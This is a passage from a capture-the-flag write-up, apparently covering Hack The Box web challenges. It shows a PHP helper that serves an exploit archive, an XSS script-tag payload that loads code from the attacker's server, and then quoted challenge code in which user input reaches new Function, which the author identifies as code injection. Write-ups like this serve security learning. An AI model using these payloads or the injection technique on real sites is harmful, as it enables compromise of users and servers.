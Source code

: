 And also we need to add CORS for our webserver.

```php
<?php
header('Access-Control-Allow-Origin: http://localhost:1337');
echo file_get_contents('./exploit.tar.gz');
?>
```

After the preparation is done, we just put the XSS payload in the issue textbox.

```html
<script src="http://webserver/main.js"></script>
```

After waiting for a few seconds, we received a callback from our server. and we could access the `/static/js/flag` for getting the flag.

![](acnologia-5.png)

**HTB{des3r1aliz3_4ll_th3_th1ngs}**

### Spiky Tamagotchi (325 points)

The value of this challenge is 325 points & +90 players have solved this challenge.

![](spiky-1.png)

We're given a website for login only.

![](spiky-2.png)

After doing some static analysis and dynamic analysis there's something that needs to point out.

at `challenge/helpers/SpikyFactory.js#L2:L17` there's a `Code Injection` where our input will pass into `anonymous function`.

```javascript
const calculate = (activity, health, weight, happiness) => {
    return new Promise(async (resolve, reject) => {
        try {
            // devine formula :100:
            let res = `with(a='${activity}', hp=${health}, w=${weight}, hs=${happiness}) {
                if (a == 'feed') { hp += 1; w += 5; hs += 3; } if (a == 'play') { w -= 5; hp += 2; hs += 3; } if (a == 'sleep') { hp += 2; w += 3; hs += 3; } if ((a == 'feed' || a == 'sleep' ) && w > 70) { hp -= 10; hs -= 10; } else if ((a == 'feed' || a == 'sleep' ) && w < 40) { hp += 10; hs += 5; } else if (a == 'play' && w < 40) { hp -= 10; hs -= 10; } else if ( hs > 70 && (hp < 40 || w < 30)) { hs -= 10; }  if ( hs > 70 ) { m = 'kissy' } else if ( hs < 40 ) { m = 'cry' } else { m = 'awkward'; } if ( hs > 100) { hs = 100; } if ( hs < 5) { hs = 5; } if ( hp < 5) { hp = 5; } if ( hp > 100) { hp = 100; }  if (w < 10) { w = 10 } return {m, hp, w, hs}
                }`;
            quickMaths = new Function(res);
            const {m, hp, w, hs} = quickMaths();
            resolve({mood: m, health: hp, weight: w, happiness: hs})
        }
        catch (e) {
            reject(e);
        }
    });
}
```
